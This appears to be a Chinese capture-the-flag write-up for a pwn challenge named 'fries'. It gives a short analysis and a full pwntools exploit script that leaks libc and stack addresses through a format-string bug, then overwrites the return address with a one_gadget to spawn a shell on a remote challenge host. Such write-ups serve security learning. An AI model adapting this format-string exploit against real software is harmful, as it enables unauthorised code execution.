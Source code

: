 # fries

## 文件分析

保护全开  
ghidra分析为64位程序

## 逆向

这道题考察格式化字符串+ret2libc，共有8次机会，可以先leak栈地址和libc地址，
再把返回地址写成打开shell，此处使用one_gadget可以只利用一次返回完成攻击

## 踩过的坑

本地能过的脚本，远端换了多少ogg就是不行，最后发现是栈上内容不一样！
下次还是先patchelf把libc打成目标的再本地调试吧（一开始偷懒，本地没patch）

## EXPLOIT

```python
from pwn import *

def payload(lo):
    global sh
    if lo:
        sh = process('./fries')
        if lo & 0b10:
            gdb.attach(sh, gdbscript='b *$rebase(0x1300)')
    else:
        sh = remote('43.249.195.138', 21942)
    oneGadgetOffset = 0xebc85
    libc = ELF('./libc.so.6')

    # payload 1, enter adventure()
    sh.sendline(b'fries\0')

    # payload 2, leak libc and stackAddr
    sh.recvuntil(b'pier\n')
    sh.sendline(b'%15$p%24$p')

    libcBase = int(sh.recv(14), 16) - libc.symbols['_IO_2_1_stdout_']
    ogg = libcBase + oneGadgetOffset
    stackRet = int(sh.recv(14), 16) - 0x48

    # payload 3 ~ 8, make one_gadget on retAddr
    mask = 0xff
    for i in range(6):
        sh.recvuntil(b'pier\n')
        count = (ogg & mask) >> 8 * i
        sh.sendline(f'%{count}c%10$hhn'.ljust(16).encode() + p64(stackRet + i))
        mask <<= 8

    # payload 9, discard remaining 1 read
    sh.recvuntil(b'pier\n')
    sh.sendline(b'just for fun\0')

    sh.interactive()
```

Done.
